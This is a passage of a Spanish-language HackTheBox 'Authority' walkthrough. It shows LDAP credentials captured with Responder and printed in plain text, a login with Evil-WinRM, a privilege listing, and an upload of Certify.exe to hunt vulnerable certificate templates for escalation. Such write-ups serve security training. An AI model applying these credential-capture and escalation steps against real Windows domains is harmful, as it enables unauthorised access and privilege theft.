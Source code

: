 
Por último le damos a "Test LDAP Profile" y esperamos en el **responder**.
[<img src="/assets/images/hackthebox/Authority/captura6.png">](/assets/images/hackthebox/Authority/captura6.png)
Tenemos usuario: svc_ldap y contraseña: lDaP_1n_th3_cle4r!, probamos a conectarnos con **Evil-winrm** por el puerto **5985** y para dentro, vamos al directorio **Desktop** y ahí tenemos el flag de bajos privilegios.

# PrivEsc

```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
Tenemos el privilegio de poder agregar Equipos al dominio utilizando credenciales válidas, y tenemos las de **svc_ldap**.

Tras una vuelta por los directorios de la máquina y no encontrar mucha cosa, veo un directorio **Certs** en **C:\\** lo  cual es poco común, así que pienso que la escalada puede ir por ahí...

Me traigo el **certify.exe** de la siguiente forma:
```powershell
PS C:\Users\svc_ldap\Desktop> upload /ruta/del/archivo/certify.exe
```

Y lanzo el siguiente comando para buscar vulnerabilidades.
```powershell
PS C:\Users\svc_ldap\Desktop> ./Certify.exe find /vulnerable
```